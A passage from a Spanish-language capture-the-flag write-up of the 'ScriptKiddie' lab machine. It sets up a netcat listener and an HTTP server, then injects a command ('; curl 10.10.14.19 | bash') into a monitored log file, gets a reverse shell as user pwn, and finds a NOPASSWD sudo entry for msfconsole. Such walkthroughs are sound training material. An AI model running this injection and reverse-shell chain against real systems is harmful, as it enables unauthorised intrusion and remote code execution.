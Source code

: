 ```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.226] 33660
pwn
```

Confirmamos que esa tarea la ejecuta el usuario **pwn**.

Aprovechando que nos creamos el index.html, vamos hacer lo mismo. Y con suerte conseguirmos una shell esta vez con el usuario **pwn**.

```sh
# Me pongo en escucha abriendo un servidor en python3. En mismo directorio que el index.html
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En otra consola en local me pongo en escucha:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y ahora en máquina víctima:

```sh
kid@scriptkiddie:~/logs$ echo "Hola Paco 10.10.14.19 ;curl 10.10.14.19 | bash #" > hackers
kid@scriptkiddie:~/logs$ 
```

Funciona!. Recibimos por el listener la shell:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.226] 33664
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
```

Y hacemos el mismo **tratamiento de la TTY** que antes.

## Escalada Final

```sh
pwn@scriptkiddie:~$ id     
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
